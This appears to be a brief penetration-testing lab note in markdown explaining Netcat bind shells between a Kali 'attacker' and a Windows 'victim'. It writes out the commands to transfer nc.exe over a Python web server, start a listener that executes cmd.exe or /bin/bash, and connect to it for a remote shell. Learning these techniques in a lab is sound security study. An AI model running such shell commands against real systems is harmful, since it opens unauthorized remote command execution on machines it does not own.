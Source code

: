 Read netcat first to better understand
#### Bind shell
- A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system,consequently allowing for execution of commands on the target system
- A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

#### Lab
Transfering nc.exe file from attaker(kali) to windows(victim)
- python -m SimpleHTTPServer 80 [start a server in kali ]
- Browse the kali Ip(attacker_ip) in victim browser.
- Download the file
  
##### When attacker machine is kali:
- nc.exe -nvlp 1234 -e cmd.exe [ run this command in windows victim machine,-e cmd.exe file is executed when it will connected ]
- Back into attacker machine
- nc -nv victim_ip 1234 [this will give cmd shell  ]
##### When attacke machine is windows
- nc -nvlp 1234 -c /bin/bash [run this in kali victim machine ]
- nc.exe -nv victim_ip 1234 [this will give us bash shell ]

#### Note 
- nc.exe file is found /usr/share/windows-resources/binaries this directories
